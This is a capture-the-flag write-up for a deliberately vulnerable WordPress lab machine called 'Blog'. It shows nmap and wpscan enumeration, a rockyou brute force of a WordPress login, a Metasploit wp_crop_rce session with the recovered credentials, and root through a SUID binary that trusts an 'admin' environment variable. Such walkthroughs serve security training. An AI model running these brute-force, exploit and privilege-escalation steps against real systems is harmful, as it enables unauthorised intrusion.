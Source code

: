 # Writeup: Blog

**OS**: 🐧 Linux

**Level**: 🟢 Easy

## 🔎 Enumeration:

Nmap scan:

```shell
nmap -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan $TARGET
```

Result:

```
# Nmap 7.95 scan initiated Sat Sep 13 21:22:22 2025 as: /usr/lib/nmap/nmap --privileged -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan 10.10.103.108                     
Increasing send delay for 10.10.103.108 from 5 to 10 due to 20 out of 49 dropped probes since last increase.                                                     
Nmap scan report for 10.10.103.108                                                                                                                               
Host is up, received user-set (0.082s latency).                                                                                                                  
Scanned at 2025-09-13 21:22:22 CEST for 189s                                                                                                                     
Not shown: 65531 closed tcp ports (reset)                                                                                                                        
PORT    STATE SERVICE     REASON         VERSION                                                                                                                 
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                            
| ssh-hostkey:                                                                                                                                                   
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)                                                                                                   
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3hfvTN6e0P9PLtkjW4dy+6vpFSh1PwKRZrML7ArPzhx1yVxBP7kxeIt3lX/qJWpxyhlsQwoLx8KDYdpOZlX5Br1PskO6H66P+AwPMYwooSq24qC/Gxg4NX9M
sH/lzoKnrgLDUaAqGS5ugLw6biXITEVbxrjBNdvrT1uFR9sq+Yuc1JbkF8dxMF51tiQF35g0Nqo+UhjmJJg73S/VI9oQtYzd2GnQC8uQxE8Vf4lZpo6ZkvTDQ7om3t/cvsnNCgwX28/TRcJ53unRPmos13iwIcuvt
fKlrP5qIY75YvU4U9nmy3+tjqfB1e5CESMxKjKesH0IJTRhEjAyxjQ1HUINP                                                                                                     
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)                                                                                                  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJtovk1nbfTPnc/1GUqCcdh8XLsFpDxKYJd96BdYGPjEEdZGPKXv5uHnseNe1SzvLZBoYz7KNpPVQ8uShudDnOI
=                                                                                                                                                                
|   256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)                                                                                                
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICfVpt7khg8YIghnTYjU1VgqdsCRVz7f1Mi4o4Z45df8                                                                               
80/tcp  open  http        syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))                                                                                          
| http-robots.txt: 1 disallowed entry                                                                                                                            
|_/wp-admin/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu) 
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2025-09-13T19:25:26+00:00
| nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   BLOG<00>             Flags: <unique><active>
|   BLOG<03>             Flags: <unique><active>
|   BLOG<20>             Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-time: 
|   date: 2025-09-13T19:25:26
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 32545/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 52169/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 40324/udp): CLEAN (Failed to receive data)
|   Check 4 (port 11063/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 13 21:25:32 2025 -- 1 IP address (1 host up) scanned in 189.70 seconds
```

On port 80 i found a webserver. I looked for the `robots.txt` and found foillowing entries:

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
```

Since the server is running wordpress i started a scan with `wpscan` to enumerate usernames.

```shell
wpscan --url http://blog.thm --enumerate u
```

This gives me a few usernames.

```
kwheel
bjoel
Karen Wheeler
Billy Joel
```

## 💥 Exploitation:

I thought the obvious username to brute force was `bjoel`, but it turned out to be `kwheel`.

After a few minutes (hate bruteforce) i get the password for `kwheel` which is `cut******`.

```shell
wpscan --url http://blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames kwheel
```

After a login on `http://blog.thm/wp-login.php` i can see that the used wordpress version is `5.0`.

I used searchsploit to find some authenticated RCE exploits and tried them out. I started metasploit and was able to get a shell trough the `wp_crop_rce` exploit.

```shell
msfconsole

search wordpress 5.0

use exploit/multi/http/wp_crop_rce

set PASSWORD cutiepie1
set USERNAME kwheel
set RHOSTS http://blog.thm
set LHOST 10.10.10.10

run
```

I switched to `bjoels` home directory and i have found the `user.txt` which gives me just a:

```
You won't find what you're looking for here.

TRY HARDER
```

## 🔓 Priviledge Escalation:

I looked for the usual things for privesc (sudo -l, cronjobs) and after a search for SUID binarys i found `/usr/sbin/checker` what caught my attention. I  runed it and get just a:

```shell
/usr/sbin/checker
Not an Admin
```

This was not helpful so i runed the binary again with `ltrace`, wich gives me this back:

```shell
ltrace /usr/sbin/checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
```

So since the binary is checking for the environment variable `admin` i have just set it trought `export` and after running the `checker binary` again i was root. Then i was able to grab both flags.

## 💰 Loot:

```shell
# user.txt
c8421899aae571f7af4864**********

# root.txt
9a0b2b618bef9bfa7ac28c**********
```